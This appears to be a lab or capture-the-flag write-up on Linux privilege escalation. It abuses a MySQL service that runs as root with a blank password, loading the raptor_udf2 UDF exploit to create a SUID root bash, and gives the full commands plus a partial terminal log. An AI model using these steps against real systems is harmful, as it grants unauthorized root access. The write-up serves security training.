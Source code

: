 The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```bash
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

```bash
rm /tmp/rootbash
exit
```

## #1 - Read and follow along with the above.

Running the exploit (https://www.exploit-db.com/exploits/1518) allows root privilege escalation.

```bash
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
user@debian:~/tools/mysql-udf$ ll
total 24
-rw-r--r-- 1 user user 3378 May 15 05:55 raptor_udf2.c
-rw-r--r-- 1 user user 5344 May 31 12:55 raptor_udf2.o
-rwxr-xr-x 1 user user 8272 May 31 12:55 raptor_udf2.so
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

```